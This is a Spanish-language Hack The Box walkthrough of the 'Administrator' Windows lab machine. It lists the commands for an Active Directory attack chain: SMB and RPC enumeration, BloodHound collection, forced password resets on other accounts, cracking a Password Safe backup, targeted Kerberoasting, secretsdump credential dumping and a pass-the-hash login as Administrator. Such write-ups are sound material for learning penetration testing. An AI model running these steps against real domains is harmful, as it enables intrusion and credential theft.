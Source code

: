 
# 🖥️ Hack The Box - Administrator

**IP:** `10.10.11.42`  
**Dominio:** `administrator.htb`  
**Sistema Operativo:** Windows Server 2022  
**Dificultad:** Medio-Avanzado  
**Objetivo:** Obtener acceso a `Administrator`

---

## 🔎 1. Enumeración inicial
```bash
netexec smb 10.10.11.42 --shares
```

---

## 🔐 2. Acceso inicial con WinRM
Credenciales válidas: `olivia:ichliebedich`

```bash
netexec winrm 10.10.11.42 -u olivia -p ichliebedich
evil-winrm -i 10.10.11.42 -u olivia -p 'ichliebedich'
```

---

## 🧠 3. Enumeración interna (rpcclient)
```bash
rpcclient -U 'Olivia%ichliebedich' 10.10.11.42
```

Comandos:
```bash
enumdomusers
enumdomgroups
querygroupmem 0x200
queryuser 0x1f4
```

---

## 🩸 4. Recolección de información con BloodHound
```bash
sudo bloodhound-python -u 'olivia' -p 'ichliebedich' -c All --zip -ns 10.10.11.42 -d administrator.htb
```

---

## 🔁 5. Cambio de contraseña de Michael
```bash
net rpc password 'michael' 'passwd123' -U 'administrator.htb/olivia%ichliebedich' -S 10.10.11.42
netexec winrm 10.10.11.42 -u michael -p passwd123
```

---

## 🪜 6. Escalada a Benjamin
```bash
net rpc password 'benjamin' 'passwd123' -U 'administrator.htb/michael%passwd123' -S 10.10.11.42
netexec smb 10.10.11.42 -u benjamin -p passwd123 --shares
```

---

## 📦 7. Acceso a archivos y crackeo
```bash
get Backup.psafe3
pwsafe2john Backup.psafe3 > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

---

## 🧪 8. Credenciales para Emily
```bash
evil-winrm -i 10.10.11.42 -u emily -p 'contraseña'
```

---

## 🧀 9. Kerberoasting dirigido
```bash
sudo ntpdate 10.10.11.42
python3 targetedKerberoast.py -d administrator.htb -u emily -p 'contraseña' --dc-ip 10.10.11.42
```

---

## 🧷 10. Acceso con Ethan
```bash
netexec smb 10.10.11.42 -u ethan -p 'contraseña'
secretsdump.py administrator.htb/ethan:contraseña@10.10.11.42
```

---

## 👑 11. Acceso a Administrator
```bash
evil-winrm -i 10.10.11.42 -u Administrator -H 
```

✅ ¡Rooted!
